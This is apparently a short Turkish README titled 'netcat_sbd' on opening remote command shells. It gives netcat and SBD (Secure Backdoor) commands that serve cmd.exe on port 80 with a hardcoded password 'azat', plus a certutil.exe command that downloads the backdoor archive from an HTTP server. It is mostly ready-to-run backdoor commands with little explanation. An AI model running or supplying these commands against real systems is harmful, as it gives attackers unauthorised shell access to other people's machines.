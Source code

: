 # netcat_sbd
# NETCAT İLE REVERSE SHELL 
Kali Linux : netcat -vvn <ip> <port> <br>
Windows  : netcat.exe -lvp 80 -e cmd.exe

Netcat herhangi bir şifreleme ve IP kısıtlaması gibi bir işlem yapmadığı için tehlikelidir
Bu yüzden netcat'in ssl ve ip kısıtlaması kullanılamalıdır

# SBD (Secure Backdoor)
Şifrel SSL backdooru ve -k parametresi ile şifre verme.

Dosya aktarma certutil.exe --urlcache -f http://192.168.1.100:8000/sbd.zip sbd.zip

Windows :sbd.exe -lvp 80 -k azat -e cmd.exe
Linux      :sbd -vnn 192.168.1.106 80 -k azat 
